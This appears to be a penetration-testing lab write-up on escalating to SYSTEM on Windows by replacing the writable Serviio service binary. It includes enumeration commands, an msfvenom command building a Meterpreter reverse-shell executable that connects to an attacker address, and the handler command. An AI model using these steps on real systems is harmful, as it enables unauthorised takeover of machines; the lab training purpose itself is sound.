 ### 18.2.4.1 Exercises
#### 1. Log in to your Windows client as an unprivileged user and attempt to elevate your privileges to SYSTEM using the above vulnerability and technique.

1. Look for running processes on the system using Powershell, then notice that serviio is in the Program Files directory, meaning it is user installed.

   ```powershell
   Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
   ```

   ![image-20200723132156652](.18.2.4.1.assets/image-20200723132156652.png)

2. Enumerate permissions on the target service (serviio) with icacls tool

   - Look for the permissions regular users have.  If you see an 'F', then that is a vulnerability

     ```powershell
     icacls 'C:\Program Files\Serviio\bin\ServiioService.exe'
     ```

     ![image-20200723132238610](.18.2.4.1.assets/image-20200723132238610.png)

3. Create malicious program to replace the target service with
   ![image-20200723132345393](.18.2.4.1.assets/image-20200723132345393.png)

4. Move it to the target machine, backup the real program and set the malicious one in its place.
   ![image-20200723132640374](.18.2.4.1.assets/image-20200723132640374.png)
   ![image-20200723132733224](.18.2.4.1.assets/image-20200723132733224.png)

5. Tried to restart the service to execute the binary, but unable to do so due to lack of permissions.

   ![image-20200723132803256](.18.2.4.1.assets/image-20200723132803256.png)

6. Check if the service is set to automatic:

   ```powershell
   # Run this from command prompt, not powershell
   
   wmic service where caption="Serviio" get name, caption, state, startmode
   ```

   'StartMode' set to 'Auto', indicating a reboot will automatically start the service.
   ![image-20200723133523121](.18.2.4.1.assets/image-20200723133523121.png)

7. Check if the current user has rights to restart the system:

   ```powershell
   whoami /priv
   ```

   `SeShutdownPrivilege` is listed, indicating I have the privileges to restart:
   ![image-20200723133604887](.18.2.4.1.assets/image-20200723133604887.png)

8. Issue a reboot for the machine

   ```powershell
   shutdown /r /t 0
   ```

9. Successfully logged in as badguy/badpass
   ![image-20200723134956548](.18.2.4.1.assets/image-20200723134956548.png)



#### 2. Attempt to get a remote system shell rather than adding a malicious user.

1. Constructed a reverse shell with msfvenom as an EXE file and netcat:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe > metshell.exe
   ```

   ![image-20200723135206017](.18.2.4.1.assets/image-20200723135206017.png)

2. Transferred EXE from Kali to Windows
   ![image-20200723135646628](.18.2.4.1.assets/image-20200723135646628.png)

3. Replaced ServiioService.exe (the old exploit) with metshell.exe
   ![image-20200723135825268](.18.2.4.1.assets/image-20200723135825268.png)

4. Started meterpreter handler on Kali

   ```bash
   msfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
   ```

   ![image-20200723140000553](.18.2.4.1.assets/image-20200723140000553.png)
   
5. Restarted Windows & meterpreter session was established when service ran:
   ![image-20200723140207495](.18.2.4.1.assets/image-20200723140207495.png)
   ![image-20200723140402339](.18.2.4.1.assets/image-20200723140402339.png)





